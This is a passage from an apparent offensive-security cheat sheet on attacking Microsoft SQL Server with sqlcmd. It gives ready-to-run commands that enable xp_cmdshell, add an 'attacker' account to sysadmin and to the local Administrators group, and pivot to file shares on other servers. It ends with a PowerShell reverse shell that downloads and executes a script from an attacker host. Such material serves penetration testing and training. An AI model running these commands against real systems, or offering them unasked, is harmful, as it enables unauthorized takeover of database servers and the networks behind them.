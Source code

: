 #### 10.3 Enumerate Linked Server Logins
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SELECT name, is_disabled FROM sys.server_principals WHERE type = 'S';"
  ```
  List all SQL logins on the linked server, including their status (enabled/disabled).

## 11. Privilege Escalation Techniques

#### 11.1 Exploit SQL Server Misconfigurations
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
  ```
  If `xp_cmdshell` is disabled, enable it to execute system commands.

#### 11.2 Escalate Privileges via Database Roles
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_addsrvrolemember 'attacker', 'sysadmin';"
  ```
  Add the attacker account to the `sysadmin` role, thereby escalating privileges.

#### 11.3 Escalate to OS-level Administrator
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'net localgroup administrators attacker /add';"
  ```
  Add the attacker to the OS-level `Administrators` group using `xp_cmdshell`.

#### 11.4 Token Impersonation via SQL Server
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'whoami /priv';"
  ```
  Enumerate available tokens and privileges that can be impersonated on the server.

## 12. Advanced Lateral Movement

#### 12.1 Pivoting through MSSQL to Other Services
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'net use Z: \\\\other_server\\share /user:domain\\user password';"
  ```
  Pivot through the MSSQL server to access file shares on other systems.

#### 12.2 Deploying a Reverse Shell via SQLCMD
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -c IEX (New-Object Net.WebClient).DownloadString(''http://<attacker_ip>/reverse_shell.ps1'');';"
  ```
  Execute a reverse shell by leveraging `xp_cmdshell` and PowerShell.
